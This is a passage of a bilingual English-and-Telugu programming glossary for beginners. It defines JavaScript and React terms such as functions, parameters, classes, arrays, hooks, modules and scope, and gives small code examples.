



# The Complete Terms Dictionary

### Two books in one — everyday programming words, then software, systems, cloud, AI & the 2026 tool landscape (English + Telugu)

> *"You don't truly know a concept until you can name it. Half of feeling lost is just not knowing what the words mean — this book fixes that half, from your first function to the cloud."*

---

## How to use this dictionary

This is **one reference in two books**. **Book 1 — Programming Fundamentals** is the everyday vocabulary you meet first: function, class, method, variable, hook, and the pairs people mix up. **Book 2 — Software, Systems & Tools** is the bigger picture: servers, databases, APIs, architecture, security, the AI era, and a full map of *which tool is used for what* in 2026.

It is a **reference, not a read-once book**. When a word trips you up — in a tutorial, a job description, or a meeting — look it up. Each term gives a **plain meaning**, a tiny **example**, and a **Telugu** line. Start in Book 1; reach into Book 2 as the words get bigger.

<p class="te"><strong>Telugu:</strong> Idi <strong>oke reference, rendu books</strong>. <strong>Book 1</strong> = roju vaade moolika padaalu (function, class, method, hook…). <strong>Book 2</strong> = peddha bomma — servers, databases, APIs, architecture, security, AI, mariyu 2026 lo <em>e tool enduku vaadataro</em> map. Okkasari chadive book kaadu — <strong>reference</strong>: word ardham kakapothe ikkada vethiki chudu. Book 1 tho modalu pettu; padaalu peddhavi ayye koddi Book 2 loki vellu.</p>

---

## Table of Contents

### Book 1 — Programming Fundamentals · *start here, the everyday words*

- [Part A — The Atoms of Code](#part-a-the-atoms-of-code) · variable, value, statement, expression, syntax…
- [Part B — Functions & Their Family](#part-b-functions-their-family) · function, parameter, argument, method, built-in, custom, callback, hook…
- [Part C — Objects, Classes & OOP](#part-c-objects-classes-oop) · object, property, class, instance, constructor, inheritance…
- [Part D — Data & Collections](#part-d-data-collections) · data type, array, index, object-as-map, JSON…
- [Part E — Making Decisions & Repeating](#part-e-making-decisions-repeating) · boolean, condition, loop, iteration…
- [Part F — Organising & Reusing Code](#part-f-organising-reusing-code) · module, package, library, framework, API, dependency, npm…
- [Part G — The Web & React Vocabulary](#part-g-the-web-react-vocabulary) · DOM, event, component, props, state, hook, JSX, frontend/backend…
- [Part H — Running Code & When It Breaks](#part-h-running-code-when-it-breaks) · runtime, scope, error, bug, debugging, sync/async…
- [Part I — The Developer's Workbench](#part-i-the-developers-workbench) · IDE, terminal, Git, repo, commit, deploy, environment…
- [Part J — The Confusables](#part-j-the-confusables-side-by-side) · the pairs everyone mixes up, side by side

### Book 2 — Software, Systems & Tools · *the bigger picture*

- [Part A — Machines & Where Code Runs](#part-a-machines-where-code-runs) · server, client, VM, container, cloud, CDN…
- [Part B — Data & Databases](#part-b-data-databases) · data, DB, SQL, index, transaction, cache…
- [Part C — Web & APIs](#part-c-web-apis) · frontend, API, REST, JSON, JWT, CORS…
- [Part D — Building Software](#part-d-building-software) · compiler, runtime, framework, dependency, testing…
- [Part E — Working Like a Developer](#part-e-working-like-a-developer) · repo, branch, PR, CI/CD, agile, tech debt…
- [Part F — Architecture & Scale](#part-f-architecture-scale) · microservices, scaling, latency, serverless…
- [Part G — Security](#part-g-security) · encryption, hashing, secrets, SQL injection, DDoS…
- [Part H — The AI Era](#part-h-the-ai-era) · LLM, prompt, agent, RAG, vector DB…
- [Part I — The Builder's Toolbox: 2026 Tool Landscape](#part-i-the-builders-toolbox-the-2026-tool-landscape) · who uses what — frontend, backend, DB/auth, payments, deploy, AI & the hidden gems

---

# Book 1 — Programming Fundamentals

*The everyday words. If you are early in the journey, everything you need is here — start at Part A and dip back whenever a word feels fuzzy.*

# Part A — The Atoms of Code

*The smallest words. Everything else is built from these.*

**Syntax** — the grammar rules of a language: where the brackets, semicolons and quotes go. Break the syntax and the code won't even run.
<p class="teg"><strong>Telugu:</strong> Bhasha yokka <strong>grammar niyamalu</strong> — brackets, semicolons ekkada raavaalo. Syntax tappithe code run <em>ye</em> avvadu.</p>

**Statement** — one complete instruction that *does* something. Usually one line, often ending in `;`.
`let total = 0;` and `if (x > 5) { ... }` are statements.
<p class="teg"><strong>Telugu:</strong> Oka <strong>pani chese</strong> poorthi aagna — saadhaaranam ga oka line.</p>

**Expression** — any piece of code that *produces a value*. `2 + 2`, `price * qty`, `age >= 18` are all expressions.
The rough test: if it can sit on the right of `=`, it's an expression. A statement *does*; an expression *is worth* something.
<p class="teg"><strong>Telugu:</strong> Oka <strong>value ni istundi</strong>. Test: <code>=</code> ki kudivaipu pettagaligite adi expression. Statement <em>panichestundi</em>; expression <em>value istundi</em>.</p>

**Variable** — a named box that holds a value you can use and change later.
`let score = 10;` — `score` is the box, `10` is what's inside.
<p class="teg"><strong>Telugu:</strong> Value ni pettukune <strong>peru unna dabba</strong>. Taruvata vaadukovachu, maarchukovachu.</p>

**Constant** — a variable whose value can't be *reassigned* after it's set. Written with `const`.
<p class="teg"><strong>Telugu:</strong> Set chesaka <strong>malli maarchalemu</strong> — <code>const</code> tho raastam.</p>

**Value** — the actual data itself: `42`, `"Nikhil"`, `true`, a list, an object. The *thing* stored in a variable.
<p class="teg"><strong>Telugu:</strong> Asalu <strong>data</strong> — dabba lopala unna vishayam.</p>

**Literal** — a fixed value written directly in the code, exactly as it is.
`42` (number literal), `"hi"` (string literal), `[1, 2]` (array literal), `{ a: 1 }` (object literal).
<p class="teg"><strong>Telugu:</strong> Code lo <strong>neruga raasina</strong> value — <code>42</code>, <code>"hi"</code>, <code>[1,2]</code>.</p>

**Operator** — a symbol that performs an action on values: `+ - * / = === && !`. The values it works on are its **operands**.
In `price + tax`, the `+` is the operator; `price` and `tax` are operands.
<p class="teg"><strong>Telugu:</strong> Pani chese <strong>gurthu</strong> (<code>+ - === &amp;&amp;</code>). Adi pani chese values ni <strong>operands</strong> antaru.</p>

**Keyword** *(reserved word)* — a word the language owns and gives special meaning: `if`, `return`, `const`, `function`, `class`. You can't use them as your own names.
<p class="teg"><strong>Telugu:</strong> Language ki <strong>sonta</strong> prathyeka padaalu (<code>if</code>, <code>return</code>, <code>const</code>). Vaatini nee variable perlu ga vaadaleru.</p>

**Comment** — a note for humans that the computer ignores. `// single line` or `/* multi-line */`.
<p class="teg"><strong>Telugu:</strong> Manushula kosam raase note — computer <strong>paticchukodu</strong>. Comment code enduku ela raasavo cheptundi.</p>

**Declaration vs assignment** — declaring *introduces* a variable (`let x;`); assigning *gives it a value* (`x = 5`). Doing both at once is **initialization** (`let x = 5;`).
<p class="teg"><strong>Telugu:</strong> <strong>Declaration</strong> = variable ni parichayam cheyyadam (<code>let x</code>). <strong>Assignment</strong> = daaniki value ivvadam (<code>x = 5</code>). Rendu okkasari ante <strong>initialization</strong>.</p>

**Data type** — the *kind* of a value: text (`string`), a number (`number`), yes/no (`boolean`), a list (`array`), a record (`object`). See Part D and the notes (B2).
<p class="teg"><strong>Telugu:</strong> Value <strong>e rakam</strong> di — text, number, true/false, list, object.</p>

---

# Part B — Functions & Their Family

*The most important word in programming, and all its relatives. If you learn one part, learn this one.*

## The core

**Function** — a reusable, named block of code that takes **inputs**, does a job, and usually **returns** an output. Write it once, use it anywhere.
```js
function add(a, b) {
  return a + b;      // takes two inputs, returns their sum
}
```
<p class="teg"><strong>Telugu:</strong> Malli malli vaadagalige <strong>code mukka</strong> — input istav, oka pani chesi, output istundi. <strong>Okkasari</strong> raasi, ekkadaina vaadukovachu.</p>

**Call** *(invoke / run / execute)* — to actually *use* a function by writing its name with `()`. Defining a function doesn't run it; **calling** it does.
`add(2, 3)` calls `add` and gets back `5`.
<p class="teg"><strong>Telugu:</strong> Function ni <code>()</code> tho <strong>vaadadam</strong>. Function raayadam valla adi run avvadu — <strong>call</strong> chesthene run avutundi.</p>

**Parameter vs argument** — the two words for "function inputs", and they're *not* the same. A **parameter** is the placeholder in the definition; an **argument** is the real value you pass when calling.
```js
function greet(name) {      // `name` is the PARAMETER (the placeholder)
  return `Hi ${name}`;
}
greet("Nikhil");           // "Nikhil" is the ARGUMENT (the real value)
```
<p class="teg"><strong>Telugu:</strong> <strong>Parameter</strong> = definition lo unna <em>khaali chotu</em> (<code>name</code>). <strong>Argument</strong> = call chesinappudu pampe <em>nijamaina value</em> (<code>"Nikhil"</code>). Rendu veru!</p>

**Return** — the value a function hands back to whoever called it. After `return`, the function stops. No `return` → the function gives back `undefined`.
<p class="teg"><strong>Telugu:</strong> Function <strong>tirigi ichhe</strong> value. <code>return</code> taruvata function aagipotundi. <code>return</code> lekapothe <code>undefined</code> istundi.</p>

**Body** — the code inside a function's `{ }` — the actual work it does.
<p class="teg"><strong>Telugu:</strong> Function <code>{ }</code> lopali code — adi chese asalu pani.</p>

Here is the whole anatomy in one picture:

```
      keyword   name    parameters
        │        │        │
     function  add  (  a , b  )  {
        return a + b ;   ◄── body (the work) + return value
     }

     add( 2 , 3 )      ◄── a CALL, with 2 and 3 as arguments
         └───┘
        arguments
```

## Kinds of functions

**Built-in function** *(pre-built / native)* — a function the language or browser **already gives you**. You didn't write it; you just use it.
`console.log()`, `Math.max()`, `Array.map()`, `fetch()`, `parseInt()` are all built-in.
<p class="teg"><strong>Telugu:</strong> Language leda browser <strong>munde ichhina</strong> function. Nuvvu raayaledu — vaadukuntav matrame (<code>console.log</code>, <code>Math.max</code>, <code>fetch</code>).</p>

**Custom function** *(user-defined)* — a function **you write yourself** for your own needs.
```js
function calculateGST(amount) {   // YOUR function — doesn't exist until you write it
  return amount * 0.18;
}
```
<p class="teg"><strong>Telugu:</strong> Nee avasaraaniki <strong>nuvvu raase</strong> function. Nuvvu raasedaaka adi undadu.</p>

**Method** — a function that **belongs to an object**, called with a dot. Every method is a function; not every function is a method.
`cart.push(item)` — `push` is a method of the array `cart`. `"hi".toUpperCase()` — `toUpperCase` is a method of the string.
<p class="teg"><strong>Telugu:</strong> Oka <strong>object ki chendina</strong> function — dot tho pilustam. <strong>Prathi method oka function</strong>; kaani prathi function method kaadu. Dot ki mundu unna daaniki adi chendindi.</p>

**Arrow function** — a shorter way to write a function, using `=>`. Its special trait: it has no `this` of its own (notes G1).
`const double = (n) => n * 2;`
<p class="teg"><strong>Telugu:</strong> <code>=&gt;</code> tho raase <strong>chinna</strong> function. Pratyekata: daaniki sonta <code>this</code> undadu.</p>

**Anonymous function** — a function with no name, usually made to be used once and passed straight into something else.
`setTimeout(() => alert("Hi"), 1000);` — that arrow is anonymous.
<p class="teg"><strong>Telugu:</strong> <strong>Peru leni</strong> function — okkasari vaadadaaniki, neruga maro function loki pamputam.</p>

**Callback** — a function you **pass to another function**, to be called *later* — when something finishes or an event happens. The heartbeat of JavaScript.
```js
button.addEventListener("click", () => console.log("clicked!"));
//                                └──────── this is the callback ────────┘
```
<p class="teg"><strong>Telugu:</strong> Maro function ki <strong>pampe</strong> function — <em>taruvata</em> (pani aipoyaka, leda event jarigaka) pilavadaniki. JavaScript gunde chappudu ide.</p>

**Higher-order function** — a function that **takes a function as input, or returns one**. `map`, `filter`, `addEventListener` are all higher-order.
<p class="teg"><strong>Telugu:</strong> Maro <strong>function ni teeskune</strong>, leda <strong>function ni ichhe</strong> function (<code>map</code>, <code>filter</code>).</p>

**Pure function** — a function that, for the same input, always gives the same output and changes nothing outside itself. The easiest kind to test and trust (notes L7).
<p class="teg"><strong>Telugu:</strong> Oke input ki <strong>eppudu oke output</strong>, bayata emi maarchadu. Test cheyyadaniki, nammadaniki sulabham.</p>

**Recursion** — a function that **calls itself** to solve a problem by shrinking it each time. Needs a "stop" case or it loops forever.
```js
function countdown(n) {
  if (n === 0) return;      // the stop case — without it, forever
  console.log(n);
  countdown(n - 1);         // calls ITSELF with a smaller number
}
```
<p class="teg"><strong>Telugu:</strong> <strong>Tananu tanu piliche</strong> function — prathisari problem ni chinna cheskuntundi. Oka "aagu" case tappanisari, lekapothe anantam ga tirugutundi.</p>

**Hook** — in general, a **spot a framework lets you "plug into"** to run your own code. In **React** (your Phase 6), a hook is a special built-in function whose name starts with `use` — it lets a component *hook into* React features like memory and lifecycle.
`useState()` gives a component memory; `useEffect()` runs code after render.
<p class="teg"><strong>Telugu:</strong> Framework nee code ni <strong>plug cheyanichhe chotu</strong>. <strong>React</strong> lo, hook ante <code>use</code> tho modalayye special function — component ki state (<code>useState</code>), lifecycle (<code>useEffect</code>) laanti features ni <em>hook</em> chestundi. (Phase 6 lo vastundi.)</p>

Where these fit together:


---

# Part C — Objects, Classes & OOP

*The words for modelling real-world "things" in code.*

**Object** — a bundle of related data (and functions) kept together as `key: value` pairs. Models a "thing" — a user, a product, an order.
```js
const user = { name: "Nikhil", age: 26, isAdmin: false };
```
<p class="teg"><strong>Telugu:</strong> Sambandhamunna data ni kalipi unche <strong>mukka</strong> — <code>key: value</code> jantalu. Oka "vastuvu" ni chupistundi (user, product).</p>

**Property** — one `key: value` pair inside an object. `name: "Nikhil"` is a property; `name` is its **key**, `"Nikhil"` its value. Read it with a dot: `user.name`.
<p class="teg"><strong>Telugu:</strong> Object lopali <strong>oka key: value</strong> janta. <code>name</code> = key, <code>"Nikhil"</code> = value. Dot tho chaduvu: <code>user.name</code>.</p>

**Method** *(recap)* — a property whose value is a function. It's the object's *behaviour*, as opposed to its *data*.
`user.greet()` — a method. `user.name` — a data property.
<p class="teg"><strong>Telugu:</strong> Value function ayina property. Adi object yokka <strong>pani</strong> (data kaadu).</p>

**Class** — a **blueprint** for making objects of the same kind. It defines what data and methods every object of that type will have.
```js
class User {
  constructor(name) { this.name = name; }
  greet() { return `Hi, ${this.name}`; }
}
```
<p class="teg"><strong>Telugu:</strong> Oke rakam objects thayaru cheyyadaniki <strong>plan (blueprint)</strong>. Aa type prathi object ki e data, e methods untayo class cheptundi.</p>

**Instance** *(object)* — one actual object built from a class. The class is the blueprint; the instance is the built house.
`const u = new User("Nikhil");` — `u` is an instance of `User`.
<p class="teg"><strong>Telugu:</strong> Class nunchi thayarayina <strong>oka nijamaina object</strong>. Class = plan, instance = <strong>kattina illu</strong>.</p>

**`new`** — the keyword that creates a fresh instance from a class and runs its constructor.
<p class="teg"><strong>Telugu:</strong> Class nunchi <strong>kotha instance</strong> ni thayaru chese keyword.</p>

**Constructor** — the special method that runs **once**, automatically, when an instance is created — it sets up the starting data.
<p class="teg"><strong>Telugu:</strong> Instance thayarayinappudu <strong>okkasari</strong> automatic ga run ayye method — modati data ni set chestundi.</p>

**`this`** — inside a method, a word meaning "the current object I'm working on". `this.name` = *this* particular user's name (notes G1).
<p class="teg"><strong>Telugu:</strong> Method lopala, "<strong>ippudu nenu pani chestunna object</strong>" ani artham. <code>this.name</code> = ee user peru.</p>

**Inheritance** — one class **building on another**, getting all its data and methods, then adding more. Uses `extends`.
`class Admin extends User { ... }` — an Admin *is a* User, plus extra powers (notes G4).
<p class="teg"><strong>Telugu:</strong> Oka class inko daani <strong>meeda kattadam</strong> — daani data/methods anni techukoni, extra cherustundi. <code>extends</code> vaadutam.</p>

**Encapsulation** — **hiding** an object's internal data and only letting it change through safe methods. The `#` marks truly private fields (notes G5).
<p class="teg"><strong>Telugu:</strong> Object lopali data ni <strong>daachi</strong>, safe methods dwara matrame maarchanivvadam. <code>#</code> = nijam ga private.</p>

**Polymorphism** — different classes answering the **same method name** in their own way, so one line of code handles them all (notes G6).
<p class="teg"><strong>Telugu:</strong> Veru veru classes <strong>oke method peru</strong>ki tama sonta jawaabu ivvadam — okate line anni handle chestundi.</p>

The class-to-instance relationship:



---

# Part D — Data & Collections

*The words for the shapes your data comes in.*

**Data type** — the kind of a value. JavaScript's basics: `string` (text), `number`, `boolean` (true/false), `null`, `undefined`, plus `object` and `array` for structured data (notes B2).
<p class="teg"><strong>Telugu:</strong> Value <strong>e rakam</strong> di — text, number, true/false, null, undefined, object, array.</p>

**String** — text, written in quotes. `"Nikhil"`, `'hello'`, `` `Hi ${name}` ``.
<p class="teg"><strong>Telugu:</strong> <strong>Text</strong> — quotes lo raastam.</p>

**Number** — any number; JS has no separate int/decimal. `42`, `3.14`, `-7`.
<p class="teg"><strong>Telugu:</strong> <strong>Anke</strong> — JS lo int/decimal veru ledu.</p>

**Boolean** — a value that is only `true` or `false`. The basis of every decision.
<p class="teg"><strong>Telugu:</strong> <code>true</code> leda <code>false</code> matrame. Prathi nirnayaaniki adhaaram.</p>

**null vs undefined** — both mean "no value", differently. `undefined` = JS's "never set". `null` = the developer's deliberate "empty on purpose".
<p class="teg"><strong>Telugu:</strong> Rendu "value ledu" ye. <code>undefined</code> = JS "set cheyaledu". <code>null</code> = developer "kaavalane khaali".</p>

**Array** — an **ordered list** of values, in `[ ]`. Positions counted from **0**.
`const cart = ["pen", "book", "lamp"];`
<p class="teg"><strong>Telugu:</strong> <code>[ ]</code> lo <strong>vaparusa list</strong>. Positions <strong>0</strong> nunchi.</p>

**Element** — one item inside an array. In `["pen", "book"]`, `"pen"` is an element.
<p class="teg"><strong>Telugu:</strong> Array lopali <strong>oka item</strong>.</p>

**Index** — the position number of an element, starting at 0. `cart[0]` is the first element.
<p class="teg"><strong>Telugu:</strong> Element yokka <strong>position number</strong>, 0 nunchi. <code>cart[0]</code> = modatidi.</p>

**Length** — how many elements an array has. `cart.length`.
<p class="teg"><strong>Telugu:</strong> Array lo <strong>enni items</strong> unnayo. <code>cart.length</code>.</p>

**Key** — the name half of a `key: value` pair in an object. You look up values *by* their key.
<p class="teg"><strong>Telugu:</strong> Object lo <code>key: value</code> lo <strong>peru bhaagam</strong>. Key tho value ni vethukutaam.</p>

**JSON** *(JavaScript Object Notation)* — the universal **text format** for sending data between programs. Looks like a JS object but is a string. `JSON.stringify` turns an object into JSON text; `JSON.parse` turns it back (notes D6).
<p class="teg"><strong>Telugu:</strong> Programs madhya data pampe <strong>universal text format</strong>. JS object laage kanipistundi kaani adi <strong>string</strong>. Bayataki <code>stringify</code>, lopaliki <code>parse</code>.</p>

**Mutable vs immutable** — mutable data **can be changed** in place; immutable data **cannot** — you make a new copy instead. Arrays and objects are mutable; strings and numbers are immutable.
<p class="teg"><strong>Telugu:</strong> <strong>Mutable</strong> = maarchagalige; <strong>immutable</strong> = maarchaleni (kotha copy chestham). Arrays/objects mutable; strings/numbers immutable.</p>

---

# Part E — Making Decisions & Repeating

*The words for "do this only if…" and "do this again and again."*

**Condition** — an expression that is either true or false, used to decide what runs. `age >= 18`, `cart.length === 0`.
<p class="teg"><strong>Telugu:</strong> True leda false ayye expression — em run avvalo <strong>nirnayinchadaniki</strong>. <code>age &gt;= 18</code>.</p>

**if / else** — run one block when a condition is true, another when it's false. The most basic decision.
<p class="teg"><strong>Telugu:</strong> Condition nijamaithe oka block, kakapothe inko block. Atyanta moolika nirnayam.</p>

**Loop** — a block of code that **repeats**, usually until a condition stops it. `for`, `while`, `forEach`.
<p class="teg"><strong>Telugu:</strong> <strong>Malli malli</strong> jarige code block — condition aagedaaka.</p>

**Iteration** — **one single pass** through a loop. A loop that runs 5 times does 5 iterations.
<p class="teg"><strong>Telugu:</strong> Loop yokka <strong>oka round</strong>. 5 saarlu tirigite 5 iterations.</p>

**Iterable** — anything you can loop over with `for...of`: arrays, strings, Sets, Maps.
<p class="teg"><strong>Telugu:</strong> <code>for...of</code> tho tippagalige edaina — arrays, strings, Sets.</p>

**Truthy / falsy** — how non-boolean values behave inside an `if`. Six values are **falsy** (`false, 0, "", null, undefined, NaN`); everything else is **truthy** (notes B3).
<p class="teg"><strong>Telugu:</strong> <code>if</code> lopala boolean kaani values ela pravartistayo. <strong>Aaru</strong> falsy; migilinavi anni truthy.</p>

**break / continue** — inside a loop, `break` **stops** it completely; `continue` **skips** to the next iteration.
<p class="teg"><strong>Telugu:</strong> Loop lo <code>break</code> = motham <strong>aapeyi</strong>; <code>continue</code> = ee round <strong>vadili</strong> next ki.</p>

---

# Part F — Organising & Reusing Code

*How real projects are split up, and how they borrow other people's code.*

**Module** — a **single file** of code that shares some of its contents (`export`) and uses things from other files (`import`). One file = one module (notes I1).
<p class="teg"><strong>Telugu:</strong> Oka <strong>file</strong> code — konni vishayaalu <code>export</code> chesi, veeru files nunchi <code>import</code> cheskuntundi. Oka file = oka module.</p>

**Import / export** — `export` makes something in a file available to others; `import` pulls it in. This is how files share code.
<p class="teg"><strong>Telugu:</strong> <code>export</code> = ee file lodi veeriki andubaatu lo pettadam; <code>import</code> = daanni techukovadam.</p>

**Package** — a **bundle of reusable code** (usually a library) that you download and install into your project, with a name and version.
<p class="teg"><strong>Telugu:</strong> Download chesi install cheskune <strong>reusable code mutta</strong> — peru mariyu version tho.</p>

**Library** — a **collection of ready-made functions** you call to save time. **You** stay in charge and call *it*.
Examples: lodash (utilities), axios (HTTP), day.js (dates).
<p class="teg"><strong>Telugu:</strong> Time save cheyyadaniki <strong>ready-made functions samahaaram</strong>. <strong>Nuvvu</strong> control lo unti, daanini <em>nuvvu</em> pilustav.</p>

**Framework** — a **complete structure** you build your app inside. It's in charge and **calls your code** at the right moments. The famous line: *"you call a library; a framework calls you."*
Examples: React, Angular, Next.js, Express.
<p class="teg"><strong>Telugu:</strong> Nee app ni daani <strong>lopala katte poorthi nirmaanam</strong>. Adi control lo untundi, saraina samayamlo <strong>nee code ni adi pilustundi</strong>. "Library ni nuvvu pilustav; framework ninnu pilustundi."</p>

**Dependency** — any package your project **needs to run**. Listed in `package.json`.
<p class="teg"><strong>Telugu:</strong> Nee project run avvadaniki <strong>avasaramaina</strong> package. <code>package.json</code> lo untundi.</p>

**Package manager** *(npm, yarn, pnpm)* — the tool that downloads, installs, and tracks your packages. `npm install axios` fetches a package and its dependencies.
<p class="teg"><strong>Telugu:</strong> Packages ni download, install, track chese <strong>tool</strong>. <code>npm install axios</code> — package ni techipedutundi.</p>

**API** *(Application Programming Interface)* — a **defined way for two pieces of software to talk**. Two common meanings: a **web API** (URLs you send requests to, get JSON back) and a **code API** (the set of functions a library exposes for you to use).
<p class="teg"><strong>Telugu:</strong> Rendu software mukkalu <strong>maatladukune padhati</strong>. Rendu arthaalu: <strong>web API</strong> (URLs ki request pampi JSON techukovadam) mariyu <strong>code API</strong> (library ichhe functions samahaaram).</p>

**SDK** *(Software Development Kit)* — a bigger toolbox than a library: packages, tools, and docs bundled to build for a specific platform (e.g. the "SAP AI SDK", the "AWS SDK").
<p class="teg"><strong>Telugu:</strong> Library kanna <strong>peddha toolbox</strong> — oka platform kosam packages + tools + docs kalipi.</p>

Library vs framework, the control flip:


---

# Part G — The Web & React Vocabulary

*The words you'll live in once you build for the browser — and the React terms coming in Phase 6.*

**Frontend vs backend** — **frontend** is everything that runs in the user's **browser** (the buttons, the layout, what they see). **Backend** is everything that runs on the **server** (the database, the logic, the secrets).
<p class="teg"><strong>Telugu:</strong> <strong>Frontend</strong> = user <strong>browser</strong> lo nadichedi (buttons, layout, kanipinchedi). <strong>Backend</strong> = <strong>server</strong> lo nadichedi (database, logic, secrets).</p>

**Client vs server** — the **client** *asks* (usually the browser); the **server** *answers* (a computer that holds data and logic). Client sends a **request**, server sends a **response**.
<p class="teg"><strong>Telugu:</strong> <strong>Client</strong> = <em>adugutundi</em> (browser); <strong>server</strong> = <em>jawaabu istundi</em>. Client <strong>request</strong> pamputundi, server <strong>response</strong> istundi.</p>

**DOM** *(Document Object Model)* — the live **tree of objects** the browser builds from your HTML. JavaScript edits this tree and the page updates (notes E1).
<p class="teg"><strong>Telugu:</strong> Browser nee HTML nunchi thayaru chese <strong>objects chettu</strong>. JS ee chettu ni maarusthundi, page update avutundि.</p>

**Element vs node** — a **node** is any point in the DOM tree (including text and comments); an **element** is a node that's an actual HTML tag (`<div>`, `<p>`).
<p class="teg"><strong>Telugu:</strong> <strong>Node</strong> = DOM chettu lo <em>edaina point</em> (text kuda). <strong>Element</strong> = HTML tag ayina node (<code>&lt;div&gt;</code>).</p>

**Event** — **something that happens** on the page: a click, a keypress, a form submit, the page loading.
<p class="teg"><strong>Telugu:</strong> Page meeda <strong>emo jarigindi</strong> — click, key press, form submit.</p>

**Event listener** — a function that **waits for an event** and runs when it happens. Attached with `addEventListener` (notes E3).
<p class="teg"><strong>Telugu:</strong> Event kosam <strong>eduru chusi</strong>, adi jarigganae run ayye function.</p>

**Component** — a **reusable, self-contained piece of UI** — a button, a card, a navbar. React apps are built by combining components.
<p class="teg"><strong>Telugu:</strong> Malli malli vaadagalige <strong>UI mukka</strong> — button, card, navbar. React apps ivi kalipi kadataru.</p>

**Props** — the **inputs passed into a component** from its parent, read-only. Like arguments for a component.
`<Welcome name="Nikhil" />` — `name` is a prop.
<p class="teg"><strong>Telugu:</strong> Parent nunchi component ki <strong>pampe inputs</strong>, chadavadaniki matrame. Component ki arguments laantivi.</p>

**State** — data a component **owns and can change** over time; when state changes, the UI **re-renders** to match.
<p class="teg"><strong>Telugu:</strong> Component <strong>sonta ga unche, maarche</strong> data. State maarite, UI <strong>malli geeyabadutundi</strong>.</p>

**Hook** *(React)* — a built-in function starting with `use` that lets a component use React features. `useState` (memory), `useEffect` (run code after render). (Also in Part B.)
<p class="teg"><strong>Telugu:</strong> <code>use</code> tho modalayye built-in function — component ki React features istundi. <code>useState</code>, <code>useEffect</code>.</p>

**JSX** — HTML-like syntax written **inside JavaScript**, used by React. `const el = <h1>Hello {name}</h1>;`
<p class="teg"><strong>Telugu:</strong> JavaScript <strong>lopala</strong> raase HTML laanti syntax — React vaadutundi.</p>

**Render** — to **produce the visible UI** from your data/components. A **re-render** happens when state changes.
<p class="teg"><strong>Telugu:</strong> Data nunchi <strong>kanipinche UI ni thayaru</strong> cheyyadam. State maarite <strong>re-render</strong>.</p>

**Responsive** — a layout that **adapts** to any screen size, phone to desktop.
<p class="teg"><strong>Telugu:</strong> E screen size ki ayina <strong>saripoye</strong> layout — phone nunchi desktop varaku.</p>

---

# Part H — Running Code & When It Breaks

*What happens when code runs, and the words for when it doesn't.*

**Runtime** — two meanings: (1) the **time when your program is running** (as opposed to when you're writing it); (2) the **environment that runs your code** — Node.js is a JavaScript runtime.
<p class="teg"><strong>Telugu:</strong> Rendu arthaalu: (1) program <strong>run avutunna samayam</strong>; (2) code ni <strong>run chese vaatavaranam</strong> — Node.js oka JS runtime.</p>

**Compile vs interpret** — **compiling** translates the whole program to machine code *before* running (C++). **Interpreting** runs it line by line *as it goes* (classic JS). Modern JS mixes both for speed.
<p class="teg"><strong>Telugu:</strong> <strong>Compile</strong> = motham program ni run ki <em>mundu</em> machine code loki maarchadam. <strong>Interpret</strong> = line by line <em>appatikappudu</em> run cheyyadam.</p>

**Scope** — **where a variable is visible/usable** in your code. Global scope = everywhere; local scope = only inside a function or block (notes F3).
<p class="teg"><strong>Telugu:</strong> Variable <strong>ekkada kanipistundo/vaadocho</strong>. Global = anta chota; local = oka function/block lopala matrame.</p>

**Closure** — a function that **remembers the variables** from where it was created, even after that outer function has finished (notes F4).
<p class="teg"><strong>Telugu:</strong> Tanu <strong>puttina chota variables ni gurthu</strong> pettukune function — bayati function aipoyaka kuda.</p>

**Synchronous vs asynchronous** — **sync** code runs one line at a time, each waiting for the last. **Async** code can **start** a slow job (a network call) and **move on**, handling the result later (notes H).
